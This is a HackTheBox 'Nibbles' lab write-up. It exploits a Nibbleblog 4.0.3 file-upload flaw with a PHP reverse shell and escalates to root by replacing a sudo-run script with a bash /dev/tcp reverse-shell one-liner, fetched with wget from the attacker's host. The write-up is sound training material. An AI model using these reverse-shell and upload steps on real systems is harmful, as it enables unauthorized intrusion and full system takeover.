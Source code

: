 # HackTheBox Nibbles

[Sources](https://github.com/BurntxNoodle/RedTeam/blob/master/HackTheBox%20Writeups/HTB%20-%20Nibbles/Readme.md#sources)

### Enumeration

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA nibbles 10.10.10.75```

Here's what it outputs:

![image](https://user-images.githubusercontent.com/41026969/73245301-ecec9f80-4179-11ea-96ec-ea6e22e3fd65.png)

So we see there's a ssh server and a web server being hosted on this machine. Since we don't have any creds for ssh yet, I first check out the webpage:

![image](https://user-images.githubusercontent.com/41026969/73312921-db49dd00-41f7-11ea-8c99-d5d43e258f78.png)

Checking the source (on FireFox ESR, ```CTRL``` + ```u```) we see there's a hidden directory:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Going to ```http://10.10.10.75/nibbleblog/``` to check it out shows some kind of portal:

![image](https://user-images.githubusercontent.com/41026969/73313001-13e9b680-41f8-11ea-81c8-f1be6adba61c.png)

I initially did a gobuster scan on the main homepage ```http://10.10.10.75``` and it didn't find anything. Though trying a gobuster scan on ```http://10.10.10.75/nibbleblog/``` (using the ```directory-list-2.3-medium```) outputs:

![image](https://user-images.githubusercontent.com/41026969/73313521-7c856300-41f9-11ea-89db-e960aef7edfc.png)

Looking at the ```README``` directory:

![image](https://user-images.githubusercontent.com/41026969/73313695-e7cf3500-41f9-11ea-86f7-9aa5ec46ecce.png)

We see that the web server has ```Nibbleblog version 4.0.3 codename Coffee``` installed.

##### Finding an exploit for later use

Looking up vulnerabilities for this version of Nibbleblog, there are multiple articles about file uploading:

![image](https://user-images.githubusercontent.com/41026969/73314010-b99e2500-41fa-11ea-87f6-7ff607809d93.png)

We see there's a [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload) page about it. In this article, it describes the vulnerability. ```Nibbleblog contains a flaw that allows an authenticated remote attacker to execute arbitrary PHP code. This module was tested on version 4.0.3.``` Though a thing to note about this is that we need to be on an authenticated account. So we need to keep enumerating those web directories for some credentials...

Reading more into the vulnerability, a list of steps can be found on [this webpage](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html). Where we basically have to upload an image containing php code and running it by visiting a specific location/URL which will then execute the code. 

Looking around I eventually end up in the ```/content/private/users.xml``` page. Checking out the page shows there's a single user ```admin```. It is also worth noting that there seems to be a firewall/blacklist system in place to guard against bruteforcers. Here's a screenshot of it below:

![image](https://user-images.githubusercontent.com/41026969/73314486-020a1280-41fc-11ea-871e-3e6c62829e81.png)

Doing further enumeration checks by this time adding ```php``` to list of file extensions to find any extra webpages/files:

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 200 -o gobuster_results.txt
```

Outputs the following:

![image](https://user-images.githubusercontent.com/41026969/74098356-3b3c5f80-4ae5-11ea-85ae-68c200a0e0c8.png)

Visiting each of the pages, eventually coming across ```/admin.php``` we see there's an admin login page that was previously not seen:

![image](https://user-images.githubusercontent.com/41026969/74098395-b6057a80-4ae5-11ea-81b3-4772b7a604e7.png)

Knowing before, we know of at least one user: ```admin```. Doing some careful guess and checking I eventually try ```nibbles``` as the password at it worked, revealing this home screen:

![image](https://user-images.githubusercontent.com/41026969/74098423-011f8d80-4ae6-11ea-942f-610601078c52.png)

### Exploitation

Going back to [this source](page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) that lists steps on executing the exploit shows we need to upload some php code. Below are the steps listed on the website above:

![image](https://user-images.githubusercontent.com/41026969/74098470-77bc8b00-4ae6-11ea-91f5-aabd267d6885.png)

The first step is done, we have gained admin credentials into the portal. The second step is activating the my image plugin. From the main site, going to ```Plugins``` shows that ```My image``` is already installed. Clicking the "Configure" button under it brings up a menu we can upload a picture to. The third step is uploading a PHP shell...

I use one of the default kali PHP webshells ([read more on kali webshells here](https://tools.kali.org/maintaining-access/webshells)): 

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

##### Explanation of above: ```cp``` is copy, ```/usr/share...``` is the file I'll be copying, and ```.``` is the place I'll be copying to, in Linux, ```.``` represents the current directory. 

Before I upload the file, I need to configure it by putting my IP and port number that I'll be listening to:

![image](https://user-images.githubusercontent.com/41026969/74098604-33ca8580-4ae8-11ea-9775-e7316edf4d33.png)

Now to upload this php file, I go back to the website and in the configure screen of the "My image" plugin; there's a ```Browse``` button to upload a file which I upload the php file to.

The next step according to the website is to go to ```http://localhost/nibbleblog/content/private/plugins/my_image/image.php``` page (changing the localhost address to the IP address). But before I navigate to that directory, I must first set up a netcat listener by doing ```noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ nc -nvlp 4444```.

Now visiting the address ```10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php```:

![image](https://user-images.githubusercontent.com/41026969/74098639-8310b600-4ae8-11ea-8154-a7b92ad6824f.png)

We get a shell!

### Post Exploitation - More Enumeration & Privesc

Looking aroud the machine, the user flag is found at ```/home/nibbler/user.txt```.

To do further enumeration, I use [LinEnum](https://github.com/rebootuser/LinEnum) which will gather a bunch of information about the box. To get it on the remote box, I first copy ```LinEnum.sh``` into my current working directory, then I do ```python -m SimpleHTTPServer```. Then on the remote box, I do ```wget 10.10.14.3:8000/LinEnum.sh``` to download the file. Then to run it first give it permissions ```chmod +x LinEnum.sh``` then ```./LinEnum.sh```.

Running it we see something interesting:

![image](https://user-images.githubusercontent.com/41026969/74098786-02eb5000-4aea-11ea-9dda-63df48328428.png)

We can use the sudo command to run a ```monitor.sh``` file inside the directory ```/home/nibbler/personal/stuff``` meaning we have to do ```unzip personal.zip``` to unzip the file. Going inside the personal directory there is a ```stuff``` directory and going inside that directory there is the ```monitor.sh``` file. 

To edit the file (or to change it altogether) on the target box, I did ```rm monitor.sh``` to remove the original file as we'll be uploading our own sh file. Then on the host machine, I create an sh file (also named ```monitor.sh```) that will contain a bash command to get a reverse shell. I get a bash one-liner command from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and on the top of the file I put ```#!/bin/bash``` to show we're executing bash commands. So this is how the file looks like:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.3/4445 0>&1
```

##### Note: I changed the IP/Port address to my own IP and I'll be listening on port 4445

To get it on the target host, I do the same thing from earlier: on my host machine I use ```python -m SimpleHTTPServer``` to make the files available and then on the target host machine I use ```wget 10.10.14.3:8000/monitor.sh``` to get the new ```monitor.sh``` file I created. Note for this machine you need to download the ```monitor.sh``` file inside the correct directories. Then I give it permission to execute: ```chmod +x monitor.sh```

Creating a listener on port 4445 by doing ```ncat -nvlp 4445``` and then running the new ```monitor.sh``` file by doing ```./monitor.sh```... I get a new shell!

![image](https://user-images.githubusercontent.com/41026969/74099001-a76e9180-4aec-11ea-9115-98a4f838a4e7.png)

Doing an ```id``` check shows we have uid/gid of 0 which means we are root.

Looking around, the root flag is found in ```/root/root.txt```. 

### Flag Locations
user: ```/home/nibbler/user.txt```

root: ```/root/root.txt```

### Sources
- [cve details webpage on nibbleblog vulnerability](https://www.cvedetails.com/cve/CVE-2015-6967/)
- [page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)
- [Kali web shells](https://tools.kali.org/maintaining-access/webshells)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [PentestMonkey reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [IppSec video writeup](https://www.youtube.com/watch?v=s_0GcRGv6Ds)

### Post-Machine Analysis/Reflection
- Learned that when using gobuster, add in the php extension to find additional webpages. On dirbuster, php is already the default file extension.
- Credentials aren't always stored in plaintext somewhere on a server, some guess/check might be needed.
- Learned that there's a difference between bash and sh [from reading this page](https://askubuntu.com/questions/141928/what-is-the-difference-between-bin-sh-and-bin-bash). There's also difference between ```#!/bin/bash``` and ```#!/bin/sh``` because initially running the command without the ```#!/bin/bash``` at the top did not work (but afterwards, adding it solved the issue).
- Sometimes, we have to make sure ```.sh``` files are executable (```chmod +x file_name.sh```).
- this python one liner can make a reverse shell look better: ```python -c 'import pty; pty.spawn("/bin/bash")'```.

